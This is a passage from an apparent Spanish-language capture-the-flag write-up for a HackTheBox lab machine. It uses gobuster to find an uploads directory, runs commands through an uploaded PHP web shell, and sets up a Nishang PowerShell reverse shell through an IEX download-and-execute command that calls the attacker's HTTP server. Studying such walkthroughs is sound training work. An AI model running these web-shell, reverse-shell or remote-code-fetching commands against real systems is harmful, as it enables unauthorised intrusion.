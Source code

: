 <figure><img src="../../../../../.gitbook/assets/1650_vmware_VrFevCzGx7.png" alt="" width="563"><figcaption></figcaption></figure>

Como no sabemos donde se sube el archivo, probaremos con **gobuster** de enumerar algún directorio donde se suban estos archivos, encontramos el directorio "uploads".

{% code overflow="wrap" %}
```bash
gobuster dir -u http://internal.analysis.htb/dashboard/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/1651_vmware_3ddNcNj89c.png" alt=""><figcaption></figcaption></figure>

Probaremos de acceder a la WebShell que hemos subido y probaremos de ejeuctar comandos, por ejemplo "whoami" para saber el usuario que ejecuta la página web.

_http://internal.analysis.htb/dashboard/uploads/cmd.php?cmd=whoami_

<figure><img src="../../../../../.gitbook/assets/1652_vmware_cRwYK63Nvz.png" alt=""><figcaption></figcaption></figure>

Como ya tenemos un Remote Code Execution (RCE), probaremos de establarnos una Reverse Shell. Nos pondremos con **nc** en escucha por el puerto 443.

```bash
rlwrap -cAr nc -nlvp 443
```

<figure><img src="../../../../../.gitbook/assets/1653_vmware_mzwqU1hJGT.png" alt=""><figcaption></figcaption></figure>

Utilizaremos el script de .ps1 de **Nishang** para establecernos una Reverse Shell, modificaremos el contenido de "Invoke-PowerShellTcp.ps1" y al final del script pondremos el Invoke para que al importarlo en memoria se ejecute la Reverse Shell en el equipo víctima.

```bash
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .

mv Invoke-PowerShellTcp.ps1 PS.ps1

nvim PS.ps1

catnp PS.ps1 | tail -n 1

python3 -m http.server 80
```

<figure><img src="../../../../../.gitbook/assets/1654_vmware_7Uwi6byekk.png" alt=""><figcaption></figcaption></figure>

Pasaremos la ejecución del comando con Powershell y IEX para importarlo en memoria el Script que tenemos nosotros en nuestro servidor HTTP de Python.

_http://internal.analysis.htb/dashboard/uploads/cmd.php?cmd=powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.14/PS.ps1')_

<figure><img src="../../../../../.gitbook/assets/1657_vmware_ZIpj6pWB58.png" alt=""><figcaption></figcaption></figure>
